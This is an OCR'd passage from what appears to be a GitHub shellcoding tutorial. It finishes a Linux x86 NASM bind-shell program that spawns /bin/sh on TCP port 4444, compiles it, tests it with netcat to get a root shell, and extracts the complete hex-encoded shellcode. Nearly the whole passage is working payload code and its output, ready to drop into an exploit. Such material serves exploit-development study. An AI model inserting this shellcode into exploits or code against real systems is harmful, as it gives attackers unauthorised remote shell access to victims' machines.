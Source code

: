 ```nasm
jns dup2Loop   ; Jump back to the dup2Loop Procedure until ECX equals 0.

; 7. Spawn a "/bin/sh" shell for the client, in the connected session. 
; execve("/bin//sh", NULL, NULL);
;  EAX      EBX       ECX   EDX
push edx         ; Push NULL to terminate the string.
push 0x68732f2f	 ; "hs//" - Needs to be 4 bytes to fit on stack properly
push 0x6e69622f  ; "nib/" - This is "/bin//sh" backwards.
mov ebx, esp     ; point ebx to stack where /bin//sh +\x00 is located
mov ecx, edx     ; NULL
mov al, 0xb      ; execve System Call Number - 11
int 0x80         ; execute execve with system call interrupt
```

## Compiling & Testing the Assembly Shellcode
### Compiling the Shellcode
```console
nasm -f elf32 bindShell.asm -o bindShell.o
ld bindShell.o -o bindShell
```

### Testing the reverse shell program
#### Terminal Window 1
```console
./bindShell
```
#### Terminal Window 2
```console
root# netstat -tnalp | grep 4444
tcp     0    0 0.0.0.0:4444     0.0.0.0:*   LISTEN   7760/bindShell
root# nc.traditional 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
Great! Now we know our Assembly bind shell works.  
The next step is to see if the shellcode works while inside a host program.  

### Extracting the Shellcode Hex from the compiled binary
```nasm
root# objdump -d bindShell | grep '[0-9a-f]:' | \
> grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | \
> tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
> sed 's/ /\\x/g' | paste -d '' -s | \
>  sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89"
"\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xd2\x52"
"\x66\x68\x11\x5c\x66\x53\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89"
"\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0\x31\xc9\xb1\x02\xb0\x3f"
"\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"
```


[1]: 1
[1]: 1